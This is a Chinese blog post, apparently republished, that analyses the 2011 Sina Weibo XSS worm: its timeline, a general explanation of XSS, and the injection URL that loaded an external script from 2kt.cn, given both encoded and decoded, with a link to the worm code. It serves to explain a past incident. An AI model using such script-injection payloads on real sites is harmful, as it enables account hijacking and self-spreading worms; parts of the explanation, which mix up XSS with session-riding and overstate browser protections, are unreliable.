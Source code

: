 ```yaml
---
title: 110629 关于XSS攻击
layout: post
permalink: /2176.html
bot_views:
  - 197
duoshuo_thread_id:
  - 1280248249638191289
views:
  - 2
categories:
  - Code
---
```

6月28日20时14分左右开始，新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建 党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等 微博消息和私信，并自动关注一位名为hellosamy的用户。

事件的经过线索如下：

*   20:14，开始有大量带V的认证用户中招转发蠕虫
*   20:30，2kt.cn中的病毒页面无法访问
*   20:32，新浪微博中hellosamy用户无法访问
*   21:02，新浪漏洞修补完毕

**新浪微博XSS事件**

<div>
  在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。
</div>

<div>
  首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你 运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器 上的程序通话。这就是XSS攻击的最基本思路。
</div>

<div>
  再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态 的协 议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗 口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿使用你登录状态的。
</div>

<div>
  当然，你不必过于担心访问别的网站，在别的网站里的js代码会访问你的微博或是网银的登录页面。因为浏览器的安全性让js只能访问自己所在网站的资源。当然，这是浏览器做的检查，所以，浏览器并不一定会做这个检查，这就是为什么IE6是史上最不安全的浏览器，没有之一。只要你不在用IE6，应该没有这些问题。
</div>

<div>
  <strong>XSS攻击有两种方法，</strong>
</div>

*   一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进 行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。

*   另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。

这次新浪微博事件是第一种，其利用了微博广场页面 <a rel="nofollow" href="http://weibo.com/pub/star" target="_blank">http://weibo.com/pub/star</a> 的一个URL注入了js脚本，其通过<a rel="nofollow" href="http://163.fm/PxZHoxn" target="_blank">http://163.fm/PxZHoxn</a> 短链接服务，将链接指向：

<div>
  <div>
    <div>
      代码:
    </div>
    
    <pre lang="js">http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update</pre>
  </div>
</div>

<div>
  注意，上面URL链接中的其实就是</p> <div>
    <div>
      代码:
    </div>
    
    <pre lang="js">&lt;script src="//www.2kt.cn/images/t.js"&gt;&lt;/script&gt;</pre>
  </div>
  
  <div>
    攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制，所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。</p>
  </div>
  
  <p>
    <strong>其它</strong>
  </p>
  
  <ul>
    <li>
      初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
    </li>
    <li>
      史上最著名的XSS攻击是Yahoo Mail 的<a rel="nofollow" href="http://en.wikipedia.org/wiki/Yamanner" target="_blank">Yamanner </a>蠕 虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。
    </li>
    <li>
      为什么那个用户叫hellosamy，因为<a rel="nofollow" href="http://en.wikipedia.org/wiki/Samy_%28XSS%29" target="_blank">samy</a>是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
    </li>
    <li>
      关于攻击的代码在这里：<a rel="nofollow" href="http://coolshell.cn/wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip" target="_blank">06.28_sina_XSS.txt</a> （编码风格还是很不错的）
    </li>
  </ul>
</div>

转载自:http://www.jobbole.com/entry.php/982-%E6%B5%85%E6%9E%90%E6%96%B0%E6%B5%AA%E5%BE%AE%E5%8D%9A%E7%9A%84XSS%E6%94%BB%E5%87%BB